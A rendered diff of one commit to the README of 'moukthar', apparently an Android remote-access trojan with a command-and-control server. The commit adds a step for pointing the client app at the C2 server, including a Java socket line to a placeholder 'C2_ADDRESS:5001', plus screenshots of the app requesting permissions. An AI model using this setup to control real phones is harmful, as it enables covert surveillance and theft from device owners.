

Before and after one commit to Tomiwa-Ot/moukthar, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 81% size. Rendered like a GitHub page; pictures changed too: screenshots/app-permission1.png (added), screenshots/app-permission2.png (added), screenshots/client-app.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -36,6 +36,12 @@ resp.set_cookie(key="", value="", expires="", domain="your ip/domain")
 ```
 to enable Remember Me functionality in the Login page.
 
+Specify the URL of the C2 server in the [Client app](client/app/src/main/java/com/ot/androidrat/MainService.java#L32).
+
+```java
+Socket ioSocket = IO.socket(URI.create("http://C2_ADDRESS:5001"));
+```
+
 ## Production Environment Setup
 For linux envitonments, run ```server/setup.sh``` with a privileged user to make moukthar a service.
 ```console
@@ -64,4 +71,7 @@ server{
 ![Reset Password](screenshots/reset%20password.png)
+![Client app requesting permissions 1](screenshots/app-permission1.png)
+![Client app requesting permissions 2](screenshots/app-permission2.png)
+![Client app](screenshots/client-app.png)
 
 ## Warning
 THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
````
Also changed, not shown: other parts of README.md (+1 -0 lines), screenshots/files.png (added), 4 other files.
